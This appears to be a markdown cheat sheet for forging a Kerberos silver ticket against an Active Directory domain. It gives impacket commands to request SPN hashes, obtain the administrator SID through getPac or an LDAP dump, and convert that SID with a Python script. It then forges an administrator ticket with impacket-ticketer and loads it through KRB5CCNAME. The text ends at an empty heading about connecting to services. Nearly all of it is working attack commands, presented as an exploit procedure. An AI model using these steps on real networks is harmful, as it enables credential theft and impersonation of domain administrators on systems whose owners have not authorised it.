 # Gather Info

## Get SPN and Dump Hash

Request SPN info using Kerberos
`impacket-GetUserSPNs domain/username:password -dc-ip dcfqdn -request -k`

## Create NTLM Hash of Password

Ensure correct format, and create proper hash
`iconv -f ASCII -t UTF-16LE <(printf "password") | openssl dgst -md4`

## Obtain Domain SID

### Primary Method

Use any user to authenticate and get DA SID
`impacket-getPac -targetUser administrator domain/username:password`

### Alternate Method

Get DC LDAP Cert
`echo -n | openssl s_client -connect dcfqdn:636 | sed -ne '/-BEGIN CERTIFICATE-/,/-END CERTIFICATE-/P' > ldapserver.pem`

LDAP Search to Dump Users
The `tls_reqcert=never` is to allow self-signed certs.
If you need to troubleshoot, append `-d 5` to the command for debug info.
`ldapsearch -H ldap://ldapserverfqdn -Z -D username@domain -w password -b "DC=domainpart1,DC=domainafterdot" "(objectClass=user)" -o tls_cacert=./ldapserver.pem -o tls_reqcert=never > ldapsearch.out`

Find Administrator SID
`grep -A30 Administrator ldapsearch.out`

Convert it
```
sid.py:

#!/usr/bin/env python3

import base64
import struct
import sys

b64sid = sys.argv[1]
binsid = base64.b64decode(b64sid)
a, N, cccc, dddd, eeee, ffff, gggg = struct.unpack("BBxxxxxxIIIII", binsid)
bb, bbbb = struct.unpack(">xxHIxxxxxxxxxxxxxxxxxxxx", binsid)
bbbbbb = (bb << 32) | bbbb

print(f"S-{a}-{bbbbbb}-{cccc}-{dddd}-{eeee}-{ffff}-{gggg}")

./sid.py administratorbase64sid
```

# Exploit

## Request Silver Ticket

Impacket Ticketer
Be sure to omit the -500 on the end of the SID.
`impacket-ticketer -nthash otheruserntlmhash -domain-sid administratorsid -domain domain -dc-ip dcfqdn -spn otheruserspnincludingport administrator`

## Set Env Var

ccache file
`export KRB5CCNAME=administrator.ccache`

## Connect to Desired Services

